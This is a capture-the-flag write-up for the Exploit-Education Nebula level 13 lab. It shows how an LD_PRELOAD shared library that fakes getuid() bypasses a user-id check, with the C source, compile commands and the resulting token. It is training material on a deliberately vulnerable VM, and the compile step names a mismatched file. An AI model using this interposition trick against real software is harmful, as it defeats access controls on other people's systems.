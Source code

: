 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 13"
date:   2019-08-19 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 13](https://exploit.education/nebula/level-13/)

## Challenge
There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id.

To do this level, log in as the `level13` account with the password `level13`. Files for this level can be found in `/home/flag13`.

So it seems to be a simple program. A `getuid` function call is made and if the returned `uid` is 1000, the program
displays the token.
## Vulnerability
```cpp
if(getuid() != FAKEUID) {
```
We can abuse the `LD_PRELOAD` env variable to intercept the `getuid` function call.  
[Abusing LD_PRELOAD](https://www.sweharris.org/post/2017-03-05-ld-preload/)
>LD_PRELOAD lists shared libraries with functions that override the standard set, just as /etc/ld.so.preload does.
>These are implemented by the loader /lib/ld-linux.so. If you want to override just a few selected functions, 
>you can do this by creating an overriding object file and setting LD_PRELOAD; the functions in this object file will ?>override just those functions leaving others as they were.  

So basically we can override any function calls made by a program by creating our own shared library and loading it 
using the `LD_PRELOAD` env variable. So lets write a `c` program to override the `getuid` function and compile it as
a shared library.
## Solution
```cpp
level13@nebula:~$ cat getuid.c
#include <sys/types.h>
uid_t getuid(void)
{
return 1000;
 }
```
Compile it as a shared library
```bash
gcc -o getuid.so -fPIC -shared gid.c -ldl

LD_PRELOAD=$PWD/getuid.so
```
 There is one restriction. The shared library and the program loading it should have the same `uid` or it wont work. Since we have read permissions, lets just copy the file to the home directory and run it.
```bash
level13@nebula:/home/flag13$ cp flag13 /home/level13/flag13
level13@nebula:~$ ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
level13@nebula:~$ su -l flag13
Password:
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Solved!